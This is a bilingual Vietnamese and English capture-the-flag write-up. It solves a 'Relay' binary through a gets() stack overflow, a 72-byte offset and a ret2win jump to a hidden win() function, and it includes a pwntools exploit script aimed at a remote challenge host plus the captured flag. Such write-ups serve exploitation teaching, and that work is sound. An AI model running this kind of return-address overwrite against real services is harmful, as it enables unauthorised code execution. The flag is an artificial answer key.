


<div class="lang-switch" role="tablist" aria-label="Language switch">
  <button class="lang-btn active" role="tab" type="button" data-lang="en" aria-selected="true">EN</button>
  <button class="lang-btn" role="tab" type="button" data-lang="vn" aria-selected="false">VN</button>
</div>

<div class="lang-vn" markdown="1">

## Đề bài

Dịch vụ Relay chỉ lặp lại dữ liệu người dùng gửi. Trong chương trình còn một hàm chẩn đoán cũ chưa bao giờ được gọi; mục tiêu là chuyển địa chỉ trả về sang hàm đó để đọc flag.

## Cách giải

Hàm `vuln()` có bộ đệm 64 byte nhưng dùng `gets()`, nên có thể ghi tràn qua saved RBP và saved RIP. Trên amd64, cần 64 byte cho bộ đệm và 8 byte cho saved RBP, vì vậy offset tới saved RIP là 72 byte.

Hàm `win()` mở `flag.txt`, in nội dung rồi thoát chương trình. Lấy địa chỉ của `win()` từ binary và đặt địa chỉ đó sau 72 byte đệm:

```python
from pwn import *

context.arch = "amd64"
elf = ELF("./chall", checksec=False)
io = remote("34.116.80.78", 9998)
payload = b"A" * 72 + p64(elf.sym["win"])
io.sendlineafter(b"Enter your message: ", payload)
io.interactive()
```

Khi hàm `vuln()` thực hiện `ret`, RIP được thay bằng địa chỉ `win()`, chương trình đọc flag từ server.



⇒ **Flag:** `CSSCTF{s1gn4l_r3c0v3r3d_fr0m_th3_v01d}`

</div>

<div class="lang-en" markdown="1">

## Challenge

The Relay service echoes user input. The binary still contains an old diagnostic function that is never called; the goal is to redirect the return address to that function so it prints the flag.

## Solution

`vuln()` allocates a 64-byte buffer but reads it with `gets()`, allowing data to overwrite saved RBP and saved RIP. On amd64, the offset to saved RIP is 64 bytes for the buffer plus 8 bytes for saved RBP, giving 72 bytes.

`win()` opens `flag.txt`, prints its contents, and exits. Resolve the address of `win()` from the binary and place it after the padding:

```python
from pwn import *

context.arch = "amd64"
elf = ELF("./chall", checksec=False)
io = remote("34.116.80.78", 9998)
payload = b"A" * 72 + p64(elf.sym["win"])
io.sendlineafter(b"Enter your message: ", payload)
io.interactive()
```

When `vuln()` executes `ret`, RIP is replaced with `win()`, which reads the flag from the server.



⇒ **Flag:** `CSSCTF{s1gn4l_r3c0v3r3d_fr0m_th3_v01d}`

</div>
